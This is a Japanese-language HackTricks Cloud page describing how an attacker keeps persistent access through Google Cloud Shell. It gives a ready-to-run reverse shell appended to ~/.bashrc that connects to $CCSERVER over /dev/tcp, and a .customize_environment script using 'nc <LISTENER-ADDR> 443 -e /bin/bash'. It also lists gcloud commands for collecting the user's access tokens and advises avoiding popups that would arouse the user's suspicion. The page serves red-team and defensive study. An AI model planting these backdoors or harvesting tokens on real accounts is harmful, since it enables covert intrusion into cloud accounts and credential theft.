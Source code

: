 # GCP - Cloud Shell Persistence

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

## Cloud Shell

詳細については、以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的なバックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接クラウドリソースに対するコマンドラインアクセスを提供し、関連するコストはかかりません。

GoogleのCloud Shellには、**webコンソール**からアクセスするか、**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには、攻撃者にとって興味深い機能がいくつかあります:

1. **Google Cloudにアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織の所有者であっても可能です）。
2. このインスタンスは、**活動がない場合でも少なくとも120日間はホームディレクトリを維持**します。
3. そのインスタンスの活動を監視するための**組織の機能はありません**。

基本的には、攻撃者はユーザーのホームディレクトリにバックドアを設置し、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアは生き残り、攻撃者は実行されるたびにシェルを取得します。以下を実行するだけです:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダにはもう1つ**`.customize_environment`**というファイルがあり、存在する場合は、ユーザーが**クラウドシェル**にアクセスするたびに**実行**されます（前のテクニックと同様）。ユーザーがクラウドシェルを「頻繁に」使用する限り、以前のバックドアまたは次のようなバックドアを挿入して持続性を維持します。
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**認証が必要なアクションが初めて実行されるとき**には、ユーザーのブラウザにポップアップ認証ウィンドウが表示されます。このウィンドウを受け入れる必要があります。予期しないポップアップが表示されると、疑念を抱かれ、使用されている持続性手法が潜在的に危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェル（攻撃者として）から`gcloud projects list`を実行した際の、ブラウザのユーザーセッションで表示されるポップアップです：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

ただし、ユーザーがクラウドシェルを積極的に使用している場合、ポップアップは表示されず、ユーザーのトークンを**収集できます**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、以下の3つのAPIコールが使用されます:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPアドレスを教えてくれる)

しかし、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) で詳細情報を見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
